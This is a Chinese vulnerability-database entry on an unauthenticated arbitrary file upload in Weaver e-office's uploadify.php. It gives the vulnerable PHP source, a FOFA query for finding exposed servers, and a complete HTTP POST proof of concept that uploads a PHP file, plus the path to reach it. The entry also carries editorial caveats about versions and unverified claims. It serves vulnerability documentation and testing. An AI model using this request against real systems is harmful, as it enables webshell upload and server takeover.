


# 泛微e-office uploadify.php不受限上传

## 条目说明

- 对象与具体问题：泛微e-office；uploadify.php不受限上传
- 版本、配置及部署条件：本文称E-Office10，而CVE2648专项称9.5，待核版本关系
- 认证与权限前提：请求无cookie但inc/vulnerability.php前置未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 同uploadify路径且本篇请求完整，可补CVE2648篇损坏样本但不能自动套编号
- 源码调用isIllegalUploadFile却无实现，不能仅断言无过滤；tmp_name含点前提未解释
- 末尾访问xxx.php与随机文件名需参数化；版本分歧须保留

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

泛微OA E-Office 在 uploadify.php 中上传文件过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限

### 漏洞影响

泛微OA E-Office10

### 网络测绘

```
app="泛微-EOffice"
```

### 漏洞复现

登录页面



```
<?php
include_once("inc/vulnerability.php");
if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    //获取扩展名
    if (!strrpos($tempFile, ".")) {
        echo "";
        exit;
    }
    $fileExt = substr($tempFile, strrpos($tempFile, ".") + 1);
    $attachmentID = createFileDir();
    $uploadPath = $_REQUEST["uploadPath"];

    if (trim($uploadPath) == "") {
        $targetPath = $_SERVER['DOCUMENT_ROOT'] . '/attachment/' . $attachmentID;
    } else {
        $targetPath = $uploadPath . '/sent/attachment/' . $attachmentID;
    }

    if (!file_exists($targetPath)) {
        mkdir($targetPath, 0777, true);
    }

    $targetFile = str_replace('//', '/', $targetPath) . "/" . $_FILES['Filedata']['name'];
    isIllegalUploadFile($targetFile);
    move_uploaded_file($tempFile, iconv("UTF-8", "GBK", $targetFile));
    echo $attachmentID;
}

function createFileDir() {
    global $ATTACH_PATH;
    mt_srand((double) microtime() * 1000000);
    $RADOM_ID = mt_rand() + mt_rand();
    if (!file_exists($ATTACH_PATH . $RADOM_ID))
        return $RADOM_ID;
    else
        createFileDir();
}

?>
```

验证POC

```http
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4
Accept-Encoding: gzip

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="2TrZmO0y0SU34qUcUGHA8EXiDgN.php"
Content-Type: image/jpeg

<?php echo "2TrZmO0y0SU34qUcUGHA8EXiDgN";unlink(__FILE__);?>

--e64bdf16c554bbc109cecef6451c26a4--
```

> 请求长度说明：原资料 Content-Length 为 259；静态长度已移除，应由客户端根据最终请求体的字节数生成。



访问：

```
/attachment/3466744850/xxx.php
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
